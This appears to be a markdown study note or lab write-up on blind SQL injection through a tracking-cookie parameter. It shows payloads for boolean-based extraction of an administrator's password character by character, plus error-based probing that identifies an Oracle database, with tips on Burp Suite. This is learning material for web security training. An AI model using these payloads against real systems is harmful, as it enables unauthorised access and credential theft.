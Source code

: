 Think of a Cookie Header
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

which does the following lookup 
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

to decide whether to write `Welcome back` or not.

The possible **attack**
<hr />

`Method: 1` **Triggering conditional responses**

1. Checking for SQLi
`TrackingId=xyz' AND '1'='1` if returns Welcome back means the second condition is getting executed.

2. Lookup for table name user
`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

3. Lookup for password length of user=administrator
	```
	TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' 	AND LENGTH(password)>1)='a
	```

4. Lookup for password character wise
	```
	TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
	```

A point to understand here is that for step 2,3 and 4 we need to try and error and our path will be determined whether we reciving 'Welcome back' or not. Make use of repeater and intruder of burpsuit.

<hr  />

`Method: 2` **Inducing conditional responses by triggering SQL errors**

Now think of a situation we actually don't have any "welcome back" i.e. no ack.

Again we have a cookie header
`TrackingId=xyz`

**Note:** SQLi is always hit and try so first thing first know about what database we dealing with and then figure out what syntax to use.

Let's try it with single quote
`TrackingId=xyz'`  //Verify that error occured in response

Let's try with double quote
`TrackingId=xyz''` //Verify that error dissapears

This suggests that if there is a syntax error it will create error in web response("Our deriving force")

Now we need to confirm that these errors are only happining due to SQLi and not due to anything else :'') Kind of double check.

`TrackingId=xyz'||(SELECT '')||'`  // Now it still shows error. Let's try to manipulate it
`TrackingId=xyz'||(SELECT '' FROM dual)||'` and the error gone which states that we are dealing with Oracle.
